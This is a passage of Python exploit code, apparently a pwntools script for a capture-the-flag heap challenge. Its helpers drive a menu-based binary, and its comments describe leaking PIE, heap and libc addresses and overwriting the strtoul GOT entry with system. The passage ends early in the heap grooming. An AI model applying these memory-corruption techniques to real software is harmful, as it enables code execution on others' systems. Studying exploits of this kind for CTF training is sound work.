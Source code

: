 ```
        target.sendline('1')
        print target.recvuntil("hmph\nWhat is my weapon's name?\n")
        target.sendline(name)


def remSamurai(i):
        print target.recvuntil("Daimyo, nani o shitaidesu ka?\n")
        target.sendline('2')
        target.sendline(str(i)) 

def goHorde():
    target.sendline("3")

# We have two options with this function, one to rename the memory with what was there so we don't cause any changes that screw us over, and another which doesn't
# send data to overwrite it, which is used when we write system over the got entry for strtoul
def renameAlien(offset, libc=0):
        print target.recvuntil("Brood mother, what tasks do we have today.")
        target.sendline("3")
        print target.recvuntil("Brood mother, which one of my babies would you like to rename?")
        target.sendline(str(offset))
        print target.recvuntil('Oh great what would you like to rename ')
        leak = target.recvline()
        leak = leak.replace(" to?\n", "")
        leak = u64(leak + "\x00"*(8 - len(leak)))
        if libc != 1:
            target.send(p64(leak))
        return leak


def makeAlien(len, name):
        print target.recvuntil("Brood mother, what tasks do we have today.")
        target.sendline("1")
        print target.recvuntil("How long is my name?\n")
        target.sendline(str(len))
        print target.recvuntil("What is my name?")
        target.sendline(name)

def remAlien(i):
        print target.recvuntil("Brood mother, what tasks do we have today.")
        target.sendline("2")
        print target.recvuntil("Which alien is unsatisfactory, brood mother?")
        target.sendline(str(i))

# Add the three samurais used for the PIE infoleak 
addSamurai("15935728")
addSamurai("75395128")
addSamurai("95135728")

# Exit the samurai mode, go over to the horde
goHorde()

# Go through the process of heap consolidation to get a heap infoleak. Check the writeup for details

makeAlien(16, "0"*14 + "\n")
makeAlien(248, "1"*246 + "\n")
makeAlien(248, "2"*246 + "\n")


remAlien(0)


```